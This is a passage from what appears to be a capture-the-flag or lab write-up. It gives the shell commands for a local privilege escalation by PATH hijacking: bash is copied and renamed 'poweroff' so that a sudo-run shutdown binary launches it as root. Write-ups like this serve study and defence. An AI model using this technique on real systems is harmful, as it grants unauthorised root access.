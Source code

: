 2\. We copy bash to the local directory, rename it to `poweroff` and modify the `PATH` environment variable to search for file within current directory first. With this change, we then execute `shutdown` file and get elevated privileges:  
``` {.python .numberLines}
cp /bin/bash ./
mv ./bash poweroff
ls -la poweroff /bin/bash
md5sum poweroff /bin/bash
sudo /usr/sbin/shutdown

```

![writeup.privesc.steps.2.1](./screenshot14.png)  
